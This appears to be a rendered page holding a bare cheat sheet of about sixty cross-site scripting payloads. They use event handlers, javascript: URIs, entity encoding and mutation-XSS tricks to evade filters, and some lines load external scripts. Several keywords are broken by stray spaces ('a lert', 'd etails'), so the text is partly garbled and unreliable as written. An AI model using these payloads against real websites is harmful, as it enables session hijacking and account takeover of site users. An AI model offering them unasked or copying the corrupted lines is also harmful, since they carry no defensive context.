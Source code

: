 ```php
autofocus onfocus=a lert(1)>
<style/><img src="z'z</style><script/z>a lert(1)</script>">
<svg onLoad="a lert(1)" <="" svg=""
<a autofocus onfocus=a lert(23) href=#>x</a>
<svg/onLoad="`${p rompt``}`">
tarun"><x/onafterscriptexecute=confirm%26lpar;)//
"><!'/*"*\'/*\"/*--></script><Image SrcSet=K */; onerror=confirm(document.domain) //># 
<d etails/open/o ntoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">
<math><x xl ink:href=javascript:confirm`1`>click
<iframe srcdoc=<svg/o&#x6Eload&equals;a lert&lpar;1)&gt;>
<iframe/onLoad='this["src"]="jav"+"as&Tab;cr"+"ipt:al"+"er"+"t()"';>
<svg<0x0c>onLoad=a lert(1)><svg>
'><d etails/open/o ntoggle=confirm(document.location)>
<imsofake onpointerrawupdate=a lert(1)>test
<div onpointerrawupdate=a lert(1) style=width:100%;height:100%;position:absolute;background-color:red>test
<</p>iframe src=javascript:a lert()//
<script>
x = '<!--<script>'/*</script>-->*/;a lert(1)
</script
<svg onLoad="import('data:text/javascript,al'+''+'ert(0)')">
<image src\r\n=valid.jpg onLoadend='new class extends (co\u006efir\u006d)/**/`` &lcub;&rcub;'>
<a href=&#01javascript:a lert(1)>
<a href=javascript&colon;confirm(1)>
<a href="jav%0Dascript&colon;a lert(1)">
<img src=something onauxclick="new Function `al\ert\`xss\``">
<svg id=javascript:a lert(10) onLoad=location=id>
<svg/onLoad=%26nbsp;a lert`bohdan`+
1'"><img/src/onerror=.1|a lert``>
<img src onerror=%26emsp;p rompt`${document.domain}`>
<img src="img-src" onLoadstart="a lert(45)">
<img src="img-src" onLoadend="a lert(45)">
<d etails onauxclick=confirm`xss`></d etails>
<f rameset o npageshow=a lert(1)>
<svg o nunload=http://window.open('javascript:a lert(1)')>
<d etails/open o ntoggle=a lert(1)>
<xss class=progress-bar-animated onanimatio nstart=a lert(1)>
<xss<script>>&28;p rompt();&28;<</script>/xss>
<svg><b><style><img id="&lt;/style&gt;&lt;img src=1 onerror=a lert(1)&gt;">
<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;a lert`1`;>
<svg%0Aonauxclick=0;[1].some(confirm)//
<</div>script</div>>a lert()<</div>/script</div>>
<bleh/o nclick=top[/al/.source+/ert/.source]&Tab;``>click
<body ontouchstart=a lert(45)> 
<body ontouchend=a lert(45)>   
<body ontouchmove=a lert(45)>
"><input/onauxclick="[1].map(p rompt)">
<d3"<"/o nclick="1>[confirm``]"<">z
<d etails%0aopen%0ao ntoggle%0a=%0aa=p rompt,a() x>
<meter value=2 min=0 max=10 o nmOuSeoVER=a lert(1)>2 out of 10</meter><br>
<o bject/onerror=write`1`//
<output name="javascript://&NewLine;\u0061ler&#116(1)" o nclick="e val(name)">X</output>
<svg><script>a lert(1)<b>test</b>
<!--><script src=//example.com/abc.js></script>-->
<img ="=" title="><img src=1 onerror=a lert(1)>"
<!--*/!'*/!>%0D<svg/onLoad=confirm`1`//--
<math><annotation-xml encoding="text/html"><xmp>&lt;/xmp&gt;&lt;img src=x onerror=a lert(1)&gt;</xmp>
<l ink rel='preload' href='#' as='script' onLoad='confirm(domain)'>
<l ink rel=import href=https://bo0om.ru/bin.bin>
<math><annotation-xml encoding=text/html><script></</script/>a<!>l<?>ert&lpar;</>1&rpar;</></script>
```